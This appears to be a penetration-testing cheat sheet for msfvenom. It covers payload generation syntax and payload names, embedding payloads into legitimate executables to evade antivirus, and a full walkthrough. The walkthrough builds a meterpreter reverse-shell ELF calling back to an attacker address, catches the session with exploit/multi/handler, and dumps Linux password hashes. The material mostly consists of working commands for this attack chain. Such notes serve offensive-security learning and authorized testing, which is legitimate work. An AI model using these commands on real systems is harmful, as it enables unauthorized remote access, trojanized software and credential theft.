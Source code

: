 # Msfvenom

{% embed url="https://www.offsec.com/metasploit-unleashed/msfvenom/" %}

### General syntax

{% code overflow="wrap" %}
```sh
$ msfvenom --payload <payload> --format <format> --platform <platform> --arch <architecture> LHOST=<ATTACKER_ADDR> LPORT=<ATTACKER_LISTEN_PORT> --output <output_file>

# short form options
$ msfvenom -p <payload> -f <format> -p <platform> -a <architecture> LHOST=<ATTACKER_ADDR> LPORT=<ATTACKER_LISTEN_PORT> -o <output_file>
```
{% endcode %}

### Help menu

```bash
$ msfvenom -h
```

### List available options for module type

```bash
$ msfvenom -l payloads
$ msfvenom -l encoders
$ msfvenom -l nops
$ msfvenom -l all
```

### Payload option

```bash
$ msfvenom -p ...

# eg. 
$ msfvenom -p linux/x86/shell_reverse_tcp
```

#### General naming convention

`<OS>/<architecture>/<payload>`

1. `OS`: Operating system such as Windows, Linux, etc.
2. `Architecture`: x64 or x86

* 32-bit by default, if not specified

3. `Payload`: reverse tcp, bind\_tcp, etc.

#### Common payloads

**32-bit variant**

1. `windows/shell/reverse_tcp`&#x20;
2. `windows/shell_reverse_tcp`

**64-bit variant**

1. `windows/x64/shell/reverse_tcp` | `linux/x64/shell/reverse_tcp`
2. `windows/x64/shell_reverse_tcp` | `linux/x64/shell_reverse_tcp`
3. `windows/x64/meterpreter/reverse_tcp` | `linux/x64/meterpreter/reverse_tcp`
4. `windows/x64/meterpreter_reverse_tcp` | `linux/x64/meterpreter_reverse_tcp`&#x20;



### Format option

```bash
$ msfvenom -f ...

# eg.
$ msfvenom -f elf
$ msfvenom -f exe
 
```

_**Note**_: The output from `msfvenom` provides the shellcode (typically raw machine code) that can be executed on the target architecture, and is defined by the `-p` flag. The `-f` flag simply specifies the format for which the shellcode should be in.

Eg. **Powershell**

`[Byte[]] $buf = 0xfc,0x48,0x83,...`

Eg. **C**

`unsigned char buf[] = "\xfc\x48\x83...`

Eg. **Python**

`buf = b""`&#x20;

`buf += b"\xfc\x48\x8`

`buf += b"\...`

### Template

```sh
$ msfvenom -x ...
$ msfvenom --template ...
```

* can be used to specify a custom executable file to be used as template
* this means that the original functionality of the provided executable file will be fulfilled, but with the addition of the payload specified by an attacker
* may bypass AV, etc.

### CMD

{% code overflow="wrap" %}
```sh
$ msfvenom -p <platform> CMD="xxxx" -f <format> -o <output_file>.exe
```
{% endcode %}

Eg. Generate an x64 Windows `.exe` payload that executes a certain `powershell.exe` command (`CMD` option)

{% code overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/exec CMD="powershell.exe ..." -f exe -o <output_file>.exe
```
{% endcode %}

### Example

`linux/x86/meterpreter/reverse_tcp`

```bash
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.xxx.xxx LPORT=8000 -f elf > shell.elf
```

#### Module to use on the attacking machine to catch a shell

`exploit/multi/handler`

```bash
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport xxxx
msf6 exploit(multi/handler) > run
```

#### Run the shellcode on the target machine

```bash
# eg.
$ sudo ./shell.elf
```

#### Gain meterpreter shell on the attacker machine

```
meterpreter >
```

#### Using post exploitation hash dump module&#x20;

```bash
meterpreter > background
msf6 exploit(multi/handler) > sessions -l 

Active sessions
===============

  Id  Name  Type                  Information            Connection
  --  ----  ----                  -----------            ----------
  1         meterpreter x86/linux  ...                    ...

msf6 exploit(multi/handler) > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > show options
msf6 post(linux/gather/hashdump) > set session 1
msf6 post(linux/gather/hashdump) > run
...
```

{% embed url="https://www.offsec.com/metasploit-unleashed/msfvenom/" %}
